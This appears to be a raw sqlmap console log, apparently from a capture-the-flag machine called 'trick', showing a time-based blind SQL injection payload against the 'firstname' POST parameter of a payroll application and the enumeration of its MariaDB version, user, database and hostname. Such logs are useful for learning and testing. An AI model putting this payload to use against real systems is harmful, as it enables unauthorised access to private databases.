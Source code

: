 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:33:31 /2022-10-09/

[13:33:31] [INFO] parsing HTTP request from 'save_employs'
[13:33:31] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:33:31] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:33:31] [WARNING] provided value for parameter 'department_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:33:31] [WARNING] provided value for parameter 'position_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:33:31] [WARNING] provided value for parameter 'salary' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:33:31] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=sql' AND (SELECT 3175 FROM (SELECT(SLEEP(5)))erEm) AND 'LLaz'='LLaz&middlename=&lastname=map&department_id=&position_id=&salary=
---
[13:33:31] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[13:33:39] [INFO] confirming MySQL
[13:33:39] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[13:33:49] [INFO] adjusting time delay to 1 second due to good response times
[13:33:49] [INFO] the back-end DBMS is MySQL
[13:33:49] [INFO] fetching banner
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[13:33:49] [INFO] retrieved: 10.3.34-MariaDB-0+deb10u1
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
banner: '10.3.34-MariaDB-0+deb10u1'
[13:35:23] [INFO] fetching current user
[13:35:23] [INFO] retrieved: remo@localhost
current user: 'remo@localhost'
[13:36:17] [INFO] fetching current database
[13:36:17] [INFO] retrieved: payroll_db
current database: 'payroll_db'
[13:37:00] [INFO] fetching server hostname
[13:37:00] [INFO] retrieved: trick
hostname: 'trick'
[13:37:17] [INFO] testing if current user is DBA
[13:37:17] [INFO] fetching current user
current user is DBA: False
[13:37:18] [INFO] fetching database users
[13:37:18] [INFO] fetching number of database users
[13:37:18] [INFO] retrieved: 1
[13:37:19] [INFO] retrieved: 'remo'@'localhost'
database management system users [1]:
[*] 'remo'@'localhost'
